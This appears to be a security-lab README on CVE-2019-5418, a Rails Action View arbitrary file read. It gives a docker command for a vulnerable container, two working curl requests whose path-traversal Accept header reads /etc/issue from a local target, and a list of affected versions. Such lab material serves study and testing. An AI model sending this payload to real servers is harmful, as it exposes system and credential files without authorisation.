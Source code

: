 # TITLE OF VULN
## Subtitle / what it does
Ruby on Rails - arbitrary file read
Also check its "child" vulnerability not related to Headers - https://github.com/knqyf263/CVE-2019-5420

### Run in docker:
```
cd 3-ruby-rails
docker run -p 3000:3000 0snug0/cve-2019-5418
```

### Run in docker:
```
curl -i -s -k  -X $'GET' \
    -H $'Host: 127.0.0.1:3000' -H $'Accept-Encoding: gzip, deflate' -H $'Accept: .././.././.././.././.././.././.././.././.././.././etc/issue{{' -H $'Accept-Language: en' -H $'User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)' -H $'Connection: close' \
    $'http://127.0.0.1:3000/chybeta'
```

### Proxy via Burp:
```
curl -i -s -k  -X $'GET' \
    -H $'Host: 127.0.0.1:3000' -H $'Accept-Encoding: gzip, deflate' --proxy http://127.0.0.1:8080 -H $'Accept: .././.././.././.././.././.././.././.././.././.././etc/issue{{' -H $'Accept-Language: en' -H $'User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)' -H $'Connection: close' \
    $'http://127.0.0.1:3000/chybeta'
```

### Explanation
There is a File Content Disclosure vulnerability in Action View <5.2.2.1, <5.1.6.2, <5.0.7.2, <4.2.11.1 and v3 where specially crafted accept headers can cause contents of arbitrary files on the target system's filesystem to be exposed.

![image](https://user-images.githubusercontent.com/31791455/140390131-fd85589a-f379-4fb7-b967-e060838742a5.png)
![image](https://user-images.githubusercontent.com/31791455/140390169-a646a665-9b95-4540-8f9b-93f6e6e37709.png)

### References and recommended reading
https://chybeta.github.io/2019/03/16/Analysis-for%E3%80%90CVE-2019-5418

### Credits:
https://gist.github.com/ajxchapman/6ed7bf599f29a62cdbab7b6e95eebed9
https://github.com/mpgn/CVE-2019-5418

